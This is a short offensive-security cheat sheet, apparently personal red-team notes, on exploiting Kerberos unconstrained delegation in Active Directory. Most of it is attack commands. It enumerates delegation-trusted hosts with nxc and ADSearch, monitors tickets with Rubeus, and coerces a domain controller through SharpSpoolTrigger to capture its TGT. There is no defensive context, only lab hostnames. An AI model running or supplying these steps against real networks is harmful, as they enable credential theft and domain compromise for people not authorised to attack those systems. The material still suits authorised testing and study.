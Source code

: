 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Kerberos
  - AD
---
```

## Identify
Linux - remote
```bash
nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```
Windows - local
```powershell
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```
!!! alert "Domain Controllers are always permitted for unconstrained delegation."
## Exploit
#### Force DC to auth to our box and steal TGT
Monitor for tickets with Rubeus
```bat
Rubeus.exe monitor /interval:10 /nowrap
```

see: [Authentication Coercion](Authentication%20Coercion.md)

OR:
Run [https://github.com/cube0x0/SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to coerce authentication
```powershell
SharpSpoolTrigger.exe dc01.lab.local web.dev.lav.local
```
Where:
- DC01 is the "target".
- WEB is the "listener".

**Rebeus should capture a ticket**
